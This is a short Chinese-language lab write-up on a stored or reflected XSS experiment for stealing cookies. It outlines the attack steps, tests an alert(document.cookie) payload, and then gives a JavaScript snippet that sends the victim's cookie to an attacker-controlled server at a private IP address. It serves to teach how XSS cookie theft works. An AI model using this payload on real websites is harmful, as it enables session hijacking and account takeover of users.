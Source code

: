 #### 获取cookie实验

* **实验原理**

>1. 黑客首先向服务器发送js脚本
>2. 服务器将含有js脚本的页面发给黑客
>3. 黑客将js脚本的页面的url发送给被攻击方
>4. 黑客获取被攻击方的cookie

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`，如图

<img src="image/5.png" />

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```
